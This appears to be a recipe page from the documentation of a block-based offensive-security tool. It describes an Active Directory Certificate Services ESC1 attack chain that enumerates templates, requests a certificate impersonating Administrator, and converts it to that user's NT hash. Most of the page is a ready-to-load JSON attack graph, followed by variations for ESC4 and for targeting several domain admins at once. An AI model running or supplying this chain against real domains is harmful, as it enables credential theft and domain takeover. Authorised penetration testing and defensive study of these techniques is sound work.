

# ADCS ESC1 to NT

Enumerate every certificate template available in the domain, filter
to the one(s) vulnerable to ESC1, request a certificate impersonating
a target user, and convert the resulting PFX to an NT hash via PKINIT
U2U. The NT hash is auto-stored and queued for downstream consumption.

---

## Goal

Turn LDAP read access into a domain user NT hash by exploiting an
ESC1-vulnerable certificate template — without ever leaving the
flowgraph.

---

## Pipeline



---

## Block-by-block

- [`OPEN_SESSION_LDAP`](../blocks/sessions.md) — Authenticated LDAP
  session against a DC. Provides the channel we need for both
  enumeration and ESC1 request.
- [`ENUM_LDAP_ADCS_TEMPLATES`](../blocks/enumeration.md) — Streams
  every ADCS template the session can see, resolving security
  descriptors and enrollment services. Output schema includes
  `name`, `displayName`, `enroll_services`.
- [`FILTER`](../blocks/filters.md) — narrow to the template you
  intend to exploit. In practice you would use a more interesting
  filter (e.g. `key=enrolleeSuppliesSubject, op=eq, value=true`) but
  the recipe shows the simpler name-equality case for clarity.
- [`CMD_ADCS_ESC1`](../blocks/attacks.md) — performs the certificate
  request impersonating `targetusers`. `dctarget` is the target id
  of the DC; `service` is the CA name; `template` is the template
  name. Emits a `PFXB64` credential.
- [`OPEN_SESSION_KERBEROS`](../blocks/sessions.md) — re-opens
  Kerberos against the same DC using the freshly-minted PFX. The
  block accepts `PFXB64` credentials directly, so no conversion is
  needed at this stage.
- [`CONVERT_PFX_TO_NT`](../blocks/transforms.md) — runs the PKINIT
  U2U exchange against the Kerberos session to pull out the
  impersonated user's NT hash. The hash is stored and emitted as a
  fresh `credential` item.
- [`CREDENTIAL_QUEUE`](../blocks/queues-sinks.md) — feeds the new
  hash to the next runloop pass.

---

## Saved graph

```json
{
  "id": "adcs-esc1-to-nt",
  "name": "ADCS ESC1 to NT",
  "description": "Enumerate templates, exploit ESC1, convert PFX to NT.",
  "nodes": [
    {"id": "tgt-1",      "block_type_id": "SOURCE_TARGETS_NEW",     "params": {}, "position": {"x":   0, "y":  60}},
    {"id": "isdc-1",     "block_type_id": "FILTER_TARGETS",         "params": {"key": "isdc", "op": "eq", "value": "true"}, "position": {"x": 260, "y": 60}},
    {"id": "cred-1",     "block_type_id": "SOURCE_CREDENTIALS_NEW", "params": {}, "position": {"x":   0, "y": 260}},
    {"id": "mux-1",      "block_type_id": "CREDMUX",                "params": {}, "position": {"x": 260, "y": 260}},
    {"id": "openldap-1", "block_type_id": "OPEN_SESSION_LDAP",      "params": {"atype": "NTLM"}, "position": {"x": 560, "y": 160}},
    {"id": "enum-1",     "block_type_id": "ENUM_LDAP_ADCS_TEMPLATES","params": {}, "position": {"x": 840, "y": 160}},
    {"id": "tplfilt-1",  "block_type_id": "FILTER",                  "params": {"key": "name", "op": "eq", "value": "VulnTemplate"}, "position": {"x": 1120, "y": 160}},
    {"id": "esc1-1",     "block_type_id": "CMD_ADCS_ESC1",           "params": {"dctarget": 1, "service": "ACME-CA", "template": "VulnTemplate", "targetusers": "Administrator"}, "position": {"x": 1400, "y": 160}},
    {"id": "openkrb-1",  "block_type_id": "OPEN_SESSION_KERBEROS",   "params": {"atype": "PFXB64"}, "position": {"x": 1680, "y": 160}},
    {"id": "pfx2nt-1",   "block_type_id": "CONVERT_PFX_TO_NT",       "params": {}, "position": {"x": 1960, "y": 160}},
    {"id": "cq-1",       "block_type_id": "CREDENTIAL_QUEUE",        "params": {}, "position": {"x": 2240, "y": 160}},
    {"id": "drop-1",     "block_type_id": "TERMINATOR_SINK",         "params": {}, "position": {"x": 1400, "y": 360}}
  ],
  "edges": [
    {"id": "e1",  "from_node": "tgt-1",      "from_port": "target",     "to_node": "isdc-1",     "to_port": "target"},
    {"id": "e2",  "from_node": "isdc-1",     "from_port": "match",      "to_node": "openldap-1", "to_port": "host"},
    {"id": "e3",  "from_node": "cred-1",     "from_port": "credential", "to_node": "mux-1",      "to_port": "credential_in"},
    {"id": "e4",  "from_node": "mux-1",      "from_port": "ldap",       "to_node": "openldap-1", "to_port": "credential"},
    {"id": "e5",  "from_node": "openldap-1", "from_port": "session",    "to_node": "enum-1",     "to_port": "session"},
    {"id": "e6",  "from_node": "enum-1",     "from_port": "dataset",    "to_node": "tplfilt-1",  "to_port": "data"},
    {"id": "e7",  "from_node": "tplfilt-1",  "from_port": "match",      "to_node": "esc1-1",     "to_port": "target"},
    {"id": "e8",  "from_node": "mux-1",      "from_port": "kerberos",   "to_node": "openkrb-1",  "to_port": "credential"},
    {"id": "e9",  "from_node": "esc1-1",     "from_port": "result",     "to_node": "openkrb-1",  "to_port": "credential"},
    {"id": "e10", "from_node": "openkrb-1",  "from_port": "session",    "to_node": "pfx2nt-1",   "to_port": "session"},
    {"id": "e11", "from_node": "pfx2nt-1",   "from_port": "result",     "to_node": "cq-1",       "to_port": "credential"},
    {"id": "e12", "from_node": "enum-1",     "from_port": "error",      "to_node": "drop-1",     "to_port": "data"},
    {"id": "e13", "from_node": "openldap-1", "from_port": "error",      "to_node": "drop-1",     "to_port": "data"},
    {"id": "e14", "from_node": "esc1-1",     "from_port": "error",      "to_node": "drop-1",     "to_port": "data"},
    {"id": "e15", "from_node": "openkrb-1",  "from_port": "error",      "to_node": "drop-1",     "to_port": "data"},
    {"id": "e16", "from_node": "pfx2nt-1",   "from_port": "result",     "to_node": "drop-1",     "to_port": "data"}
  ]
}
```

!!! warning "Set the right `dctarget`"
    `dctarget` is the integer target id of your domain controller as
    shown in the Targets window. The example uses `1`; substitute
    your own. If you would rather pick it dynamically, pull the
    `tid` out of the target dict with a SCRIPT block and feed it
    into the `dctarget` parameter via param-mapping.

---

## Assembled view


---

## Variations

- **ESC4 instead.** Swap `CMD_ADCS_ESC1` for `CMD_ADCS_ESC4` — the
  block surface is identical; the underlying attack modifies the
  template before exploiting it.
- **Target multiple users.** Set `targetusers="Administrator,da-1,da-2"`
  on the ESC1 / ESC4 node and the engine will request a cert per
  user. Each PFX flows through the same Kerberos + PFX→NT pipeline.
- **Pre-filter at enumeration time.** The template enumeration is
  resolved against LDAP and can be filtered by
  `enrolleeSuppliesSubject` or `pkiExtendedKeyUsage` for tighter
  selection; switch the FILTER to use those keys instead of `name`.
